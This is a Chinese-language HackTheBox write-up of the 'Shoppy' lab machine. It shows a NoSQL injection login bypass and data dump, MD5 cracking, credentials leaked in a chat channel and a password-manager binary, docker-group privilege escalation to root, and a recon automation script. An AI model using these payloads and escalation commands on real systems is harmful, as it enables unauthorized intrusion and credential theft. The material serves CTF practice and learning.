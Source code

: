 ## 扫描

### 端口

```bash
nmap -v -n -Pn -sCV -oN Shoppy.nmap 10.10.11.180
```
只扫出22和80端口。


## 漏洞分析

### 80端口

将靶机域名加入hosts后访问。  
虽然感觉HTB的靶机域名应该都挺固定的，姑且写了个命令行，收集域名后加入hosts文件，看看以后能否通用：  
```bash
HTB_IP='10.10.11.180'; cat -e /etc/hosts && sudo sh -c "echo \"${HTB_IP}    $(curl -I ${HTB_IP} | grep -oP '(?<=Location: http://).*' | sed 's/\r//g')\"  >> /etc/hosts"; cat -e /etc/hosts
``` 

- 无robots  
- 网页源码无发现  
- 网站无特别功能

本来打算枚举一下目录，不过惯例试了一下 `/login` 可以。  
在登陆界面尝试了几个SQLi绕过未果。SQLi只会一点基础的……卡住  

*搜了一波WP原来这里是 [NoSQL](https://book.hacktricks.xyz/pentesting-web/nosql-injection#sql-mongo) ……*

`admin'||'1==1` 成功登入。

admin界面有搜索框，输入 `admin` 搜索有回显admin的密码。看上去感觉是MD5加密。  
在搜索框输入同样的 `NoSQLi`，成功回显所有用户（admin和josh）的账号密码。

放进[MD5解码网站](../links.md#_2)试试。`josh` 用户可成功解码。

但是至此似乎没什么其他攻击路径了。

#### 子域枚举

由于是靶机所以只扫虚拟主机的子域

```bash
gobuster vhost -u shoppy.htb -w /usr/share/wordlists/amass/bitquark_subdomains_top100K.txt -t 500 --append-domain
```

扫出一个：`Found: mattermost.shoppy.htb Status: 200 [Size: 3122]`，将其也加入hosts。  
*最开始没加 `--append-domain` 啥都没扫出来。所以最好正式开扫之前加上 `-v` 小扫一下看看，否则都不知道自己扫的是啥容易错过突破口。*

#### 从子域突破

但是访问后是空白页面，试着刷新几次发现似乎有一闪而过的登陆界面。  
开burp拦截使其停在登录界面，输入刚破解的 `josh` 的账号密码，成功登入。


## foothold

是一个聊天工具的样子。有个带锁的频道十分引人注意。看了眼内容是让我们（josh）部署一个机器。还有账号密码：  

	username: jaeger
	password: Sh0ppyBest@pp!

SSH登陆成功。


## get user flag

```
jaeger@shoppy:~$ cat user.txt
```


## 横向移动

首先看看 `sudo -l`：  
```
jaeger@shoppy:~$ id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)


jaeger@shoppy:~$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager


jaeger@shoppy:~$ ls -l /home/deploy/
total 28
-rw------- 1 deploy deploy    56 Jul 22 13:15 creds.txt
-rwxr--r-- 1 deploy deploy 18440 Jul 22 13:20 password-manager
-rw------- 1 deploy deploy   739 Feb  1  2022 password-manager.cpp
```

deploy家目录有creds.txt但是无法读取。  

看看sudo的那个命令是啥：  
`strings /home/deploy/password-manager`，注意到里面有段文字：`cat /home/deploy/creds.txt`  
似乎这个脚本可以读取creds.txt。尝试一下执行：  
```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !
```

但是不知道密码？？josh的那个不行，需要什么master password。迷茫……

*看了眼WP，竟然是用 `cat password-manager` 能发现有用的信息，服了。一直惯性觉得cat二进制文件没用每次都直接strings了……*

```
jaeger@shoppy:/home/deploy$ sudo -u deploy ./password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

SSH成功登陆 `deploy` 用户。
```
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```


## 提权

`deploy` 用户的这个 `998(docker)` 是什么情况，值得探究一下。  
通过[gtfobins](https://gtfobins.github.io/gtfobins/docker/)发现可以利用。运行下面命令后成功得到root shell：  
```
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```


## get root flag

```
# cd
# ls
root.txt
# cat root.txt
```


---

## 后记

原来是NoSQL...

说是多了个横向移动吧，其实和之前靶机比，从foothold开始获得的用户数量又没差。  
大概是因为这次是web打点时用了一个账户，后来用的又是两个普通用户的账户而没有应用账户吧。

以及以前一直觉得既然SSH能成功登陆，就已经知道自己登陆的是什么用户，那么 `id` 命令没啥意义。  
这次随手一打竟然能发现deploy用户属于docker组，从而发现突破口，也属实是运气了……


最后，  
联系[这个思路](../GatheringInformation/summary.md#web_info_gathering)，感觉信息搜集可以弄一个简易脚本。以后试试直接用这个：

### HTB_easy_firstScaning
 
```bash
#!/usr/bin/bash
# -*- coding:utf-8 -*-

## This script is requires root privilege for running.
set -eu

HTB_IP=${1}
echo "[info] Starting scan..."

# --max-retries=0 maybe ok, but sometimes missing some ports. Default is 10.
ports=$(nmap -n -Pn -sS -p 1-10000 ${HTB_IP} --min-rate=5000 --max-retries=1 | grep ^[0-9] | cut -d / -f1 | tr '\n' ',' | sed s/,$//)
echo "[info] Opening port: ${ports}"

# Since nmap scanning is too time-consuming, let it run in background.
nohup nmap -v -n -Pn -sV -O -p ${ports} --script=vuln ${HTB_IP} > "${HTB_IP}.nmap" 2>&1 &

if [[ ${ports} =~ '80' ]];then
  HTB_DOMAIN=$(curl -I ${HTB_IP} | grep -oP '(?<=Location: http://).*' | tr -d '/\r')
  echo "[info] domain: ${HTB_DOMAIN}"

  if [[ ${HTB_DOMAIN} != '' ]];then
    # for backup
    cat -e /etc/hosts
    echo "-------- Backed up hosts --------"
    
    echo "${HTB_IP}    ${HTB_DOMAIN}" >> /etc/hosts
    
    cat -e /etc/hosts
    echo "-------- Modified hosts --------"

    echo "[info] Scanning subdomain..."
    gobuster vhost -u ${HTB_DOMAIN} -w /usr/share/wordlists/amass/bitquark_subdomains_top100K.txt -t 500 --append-domain -o "subdomains_${HTB_DOMAIN}.txt"
    echo "[info] End of subdomain scan..."
  fi
fi

ps -ef | grep 'nmap -v -n -Pn'
echo "[info] Please check nmap status with: ps -ef | grep 'nmap -v -n -Pn'"
```